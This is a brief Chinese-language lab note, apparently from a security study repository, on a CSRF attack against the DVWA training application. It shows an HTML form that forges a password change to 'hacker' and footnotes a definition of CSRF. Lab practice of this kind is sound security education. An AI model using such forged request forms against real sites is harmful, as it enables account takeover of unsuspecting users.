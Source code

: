 ## DVWA中的CSRF攻击 [^1]

### Low

截取修改密码表单，保存到新的html文件

```php+HTML
<form action="http://127.0.0.1/dvwa/vulnerabilities/csrf/?" methon="GET">
    New password:<br />
    <input type="password" AUTOCOMPLETE="off" name="password_new" value="hacker"><br />
    Confirm password:<br />
     <input type="password" AUTOCOMPLETE="off" name="password_conf" value="hacker"><br />
    <br />
    <input type="submit" value="Change" name="Change">
</form>
```

[原文](https://www.hackingarticles.in/csrf-attack-in-dvwa/)

---

[^1]: 跨站点请求伪造，也称为一键攻击或会话骑行，缩写为CSRF（有时发音为sea-surf）或XSRF，是一种恶意利用网站，其中未经授权的命令从用户传输网站信任。与利用用户对特定站点的信任的跨站点脚本（XSS）不同，CSRF利用站点在用户浏览器中的信任。攻击者可能会使用攻击者的凭据伪造将受害者登录到目标网站的请求; 这称为登录CSRF。登录CSRF可以进行各种新颖的攻击; 例如，攻击者可以稍后使用其合法凭据登录该站点并查看私人信息。
